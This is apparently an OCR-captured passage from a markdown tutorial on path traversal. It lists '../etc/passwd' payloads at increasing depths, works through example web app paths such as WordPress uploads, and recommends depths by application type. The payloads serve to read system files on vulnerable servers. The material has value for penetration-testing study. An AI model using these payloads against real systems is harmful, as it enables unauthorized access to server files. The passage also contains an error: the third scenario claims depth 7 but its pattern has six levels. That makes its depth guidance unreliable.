 ```bash
# Depth 1: Go up 1 directory level
../etc/passwd

# Depth 2: Go up 2 directory levels
../../etc/passwd

# Depth 3: Go up 3 directory levels
../../../etc/passwd

# Depth 5: Go up 5 directory levels
../../../../../etc/passwd
```

### 🏗️ Real-World Directory Structure Examples

#### Web Application Scenarios

```bash
# Scenario 1: Simple web app
/var/www/html/index.php
# To reach /etc/passwd, need depth 3:
# html -> www -> var -> / (root)
# Pattern: ../../../etc/passwd

# Scenario 2: WordPress installation
/var/www/html/wp-content/uploads/file.php
# To reach /etc/passwd, need depth 5:
# uploads -> wp-content -> html -> www -> var -> / (root)
# Pattern: ../../../../../etc/passwd

# Scenario 3: Deep enterprise application
/opt/company/apps/web/public/uploads/temp/file.php
# To reach /etc/passwd, need depth 7:
# temp -> uploads -> public -> web -> apps -> company -> opt -> / (root)
# Pattern: ../../../../../../etc/passwd
```

### 🎯 Choosing the Right Depth

| Application Type            | Recommended Depth | Reasoning                           |
| --------------------------- | ----------------- | ----------------------------------- |
| **Simple CGI/PHP**          | 1-3               | Usually in `/var/www/html/`         |
| **CMS (WordPress, Drupal)** | 3-6               | Complex directory structures        |
| **Java Web Apps**           | 4-8               | Often in `/opt/tomcat/webapps/app/` |
| **Enterprise Applications** | 6-12              | Deep nested directory structures    |
| **Docker/Container Apps**   | 2-5               | Simplified container paths          |
| **Windows IIS**             | 2-6               | Typically in `C:\inetpub\wwwroot\`  |
